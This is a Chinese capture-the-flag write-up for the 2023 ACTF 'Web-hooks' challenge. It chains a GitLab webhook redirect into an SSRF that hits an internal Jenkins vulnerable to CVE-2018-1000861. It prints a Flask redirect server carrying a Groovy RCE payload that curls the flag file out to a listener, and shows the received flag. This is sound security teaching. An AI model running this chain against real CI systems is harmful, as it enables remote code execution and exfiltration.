

# 2023-ACTF-Web-hooks

## writeup

题目nginx将流量转发到内网的flask，flask是一个ssrf且只能get请求。内网的Jenkins版本存在CVE-2018-1000861可以执行rce，因此就是想办法ssrf打Jenkins。


nginx对转发的流量有一定要求：

```conf
        # gitlab
        allow 34.74.226.0/24;
        allow 34.74.90.0/24;
        # github
        allow 140.82.115.0/24;
```

需要利用的是gitlab或者github的webhooks，但是要求是get请求。

从 GitLab 发送的 webhook 以 302 响应代码响应时，GitLab 会自动遵循重定向。由于 302 重定向之后是 GET 请求，因此使用Gitlab经过一层302就可以变成get请求。

因此构造（直接下来都是本地测试，因此ip都是本地ip）：

```python
from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/redirect', methods=['POST'])
def redi():
    return redirect('http://10.207.127.144:32810/?redirect_url=http%3A%2F%2Fjenkins%3A8080%2FsecurityRealm%2Fuser%2Fadmin%2FdescriptorByName%2Forg.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript%2FcheckScript%3Fsandbox%3Dtrue%26value%3Dpublic%20class%20x%20%7Bpublic%20x()%7B%22curl%20-X%20POST%20-d%20%40%2Fflag%20http%3A%2F%2F10.207.127.144:39475/%22.execute()%7D%7D',code=302)

if __name__ == '__main__':
    app.run(debug=True,host="0.0.0.0",port=31801)

```

触发webhook：



收到flag：

```bash
nc -ln 39475
POST / HTTP/1.1
Host: 10.207.127.144:39475
User-Agent: curl/7.52.1
Accept: */*
Content-Length: 55
Content-Type: application/x-www-form-urlencoded

ACTF{cicd_MX0XKe_security_8o5Agr_is_bsreH3_interesting}
```


## 参考

https://www.cidersecurity.io/blog/research/how-we-abused-repository-webhooks-to-access-internal-ci-systems-at-scale/

